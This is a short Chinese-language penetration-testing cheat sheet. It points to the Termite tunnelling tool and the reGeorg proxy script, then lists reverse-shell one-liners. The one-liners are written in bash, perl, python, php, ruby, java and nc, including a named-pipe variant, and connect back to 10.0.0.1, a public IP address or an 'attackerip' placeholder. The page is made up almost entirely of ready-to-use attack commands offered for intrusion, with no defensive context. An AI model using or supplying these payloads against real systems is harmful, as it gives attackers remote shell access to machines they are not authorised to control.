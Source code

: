 **Termite**

使用说明:[https://rootkiter.com/Termite/README.txt](https://rootkiter.com/Termite/README.txt)

**代理脚本**

reGeorg :[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

### shell反弹

bash

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

perl

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

php

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

nc

```
#使用-e 
nc -e /bin/sh 223.8.200.234 1234 
```

```
#不使用-e
mknod /tmp/backpipe p
/bin/sh 0/tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
```
